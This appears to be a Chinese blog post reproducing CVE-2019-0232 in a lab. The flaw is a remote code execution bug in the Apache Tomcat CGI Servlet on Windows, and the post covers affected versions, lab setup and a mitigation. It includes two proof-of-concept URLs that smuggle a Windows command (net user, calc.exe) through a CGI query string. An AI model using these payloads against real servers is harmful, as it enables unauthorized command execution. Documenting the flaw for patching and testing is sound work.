







# Apache Tomcat 远程代码执行漏洞（CVE-2019-0232）漏洞复现 - 只言 - 博客园

> 原文：[`www.cnblogs.com/liliyuanshangcao/p/10731966.html`](https://www.cnblogs.com/liliyuanshangcao/p/10731966.html)

# 一、     漏洞简介

## 漏洞编号和级别

CVE 编号：CVE-2019-0232，危险级别：高危，CVSS 分值：官方未评定。

## 漏洞概述

Apache Tomcat 是美国阿帕奇（Apache）软件基金会的一款轻量级 Web 应用服务器。该程序实现了对 Servlet 和 JavaServer Page（JSP）的支持。

4 月 11 日，Apache 官方发布通告称将在最新版本中修复一个远程代码执行漏洞（CVE-2019-0232），由于 JRE 将命令行参数传递给 Windows 的方式存在错误，会导致 CGI Servlet 受到远程执行代码的攻击。

触发该漏洞需要同时满足以下条件：

1\. 系统为 Windows

2\. 启用了 CGI Servlet（默认为关闭）

3\. 启用了 enableCmdLineArguments（Tomcat 9.0.*及官方未来发布版本默认为关闭）

## 影响范围

Apache Tomcat 9.0.0.M1 to 9.0.17

Apache Tomcat 8.5.0 to 8.5.39

Apache Tomcat 7.0.0 to 7.0.93

# 二、     漏洞复现

## 环境介绍

服务端：Windows Server 2008 R2 Enterprise

Apache Tomcat 8.5.39

JDK 1.8.0_181

## 漏洞环境搭建

**java****环境安装**

1、官网下载 jdk 安装包

[`www.oracle.com/technetwork/java/javase/downloads/index.html`](https://bbs.ichunqiu.com/thread-33171-1-1.html?from=bkyl)

2、根据提示安装 jdk

 

3、配置路径，我的电脑->属性->高级系统设置->环境变量->ath 添加 jdk 和 jre 路径

 

 （环境变量配置失败可以直接在 setclasspath.bat 的开头手动声明环境变量）

 

4、配置成功后如图：

 

**Apache Tomcat****安装**

1、下载地址：（[`archive.apache.org/dist/tomcat/tomcat-8/v8.5.39/`](https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.39/)）

2、直接解压缩至你要安装的目录

 

3、安装成功后，运行 startup.bat 启动服务

 

4、访问[`localhost:8080`](http://localhost:8080/)，如下图启动成功。

 

 **配置 Apache Tomcat 服务器（修改 conf 目录配置文件，启用 CGI）**

1、打开 Tomcat 安装目录的 apache-tomcat-8.5.39\conf\web.xml 修改如下配置，在默认情况下配置是注释的。

 

 2、同时还要修改 web.xml 以下配置，否则访问 cgi 目录会提示 404。

 

 3、打开 Tomcat 安装目录的 apache-tomcat-8.5.39\conf\context.xml 修改如下配置，添加 privileged="true" 。

 

 4、在 apache-tomcat-8.5.39\webapps\ROOT\WEB-INF 目录新建一个 cgi-bin 文件夹，创建一个 hello.bat 的文件，内容如下：

 

 5、至此，此漏洞环境搭建完成

## 漏洞利用

Poc 如下：

http://localhost:8080/cgi-bin/hello.bat?& C%3A%5CWindows%5CSystem32%5Cnet.exe+user

http://localhost:8080/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5Ccalc.exe

 

漏洞复现成功。

# 三、     解决方案

Apache 官方还未正式发布以上最新版本，受影响的用户请保持关注，在官方更新后尽快升级进行防护。与此同时，用户可以将 CGI Servlet 初始化参数 enableCmdLineArguments 设置为 false 来进行防护。

在 Tomcat 安装路径的 conf 文件夹下，使用编辑器打开 web.xml，找到 enableCmdLineArguments 参数部分，添加如下配置：

 

 重启 Tomcat 服务，以确保配置生效。

# 四、     参考链接

[`blog.csdn.net/pruett/article/details/78146693`](https://blog.csdn.net/pruett/article/details/78146693)

[`blog.nsfocus.net/cve-2019-0232/`](http://blog.nsfocus.net/cve-2019-0232/)

[`github.com/pyn3rd/CVE-2019-0232`](https://github.com/pyn3rd/CVE-2019-0232)

https://github.com/jas502n/CVE-2019-0232